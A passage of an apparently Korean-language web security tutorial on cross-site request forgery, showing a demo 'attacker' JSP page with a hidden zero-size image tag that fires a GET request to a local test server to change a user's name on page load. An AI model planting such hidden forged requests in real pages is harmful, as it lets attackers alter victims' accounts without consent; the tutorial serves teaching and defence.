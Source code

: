 ##### 공격자 악성 페이지 - GET 방식
- 이미지 태그를 통해 페이지 로딩시 보안 취약 서버로 GET 요청을 보냅니다.
- width, height 값이 0px이므로 화면에서 보이지 않습니다.

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Attacker Site</title>
</head>
<body>
<div id="wrap">
    <h1>악성 페이지 - 숨겨진 이미지 태그</h1>
    <img src="http://localhost:8081/change?name=JunhyunnyChangedByImageTag" style="width: 0px; height: 0px;"/>
</div>
</body>
</html>
```

##### CSRF 공격 후 사용자 이름 변경 확인

<p align="center"><img src="/images/cross-site-reqeust-forgery-3.gif" class="image__border"></p>

### 2.2. POST 방식 공격
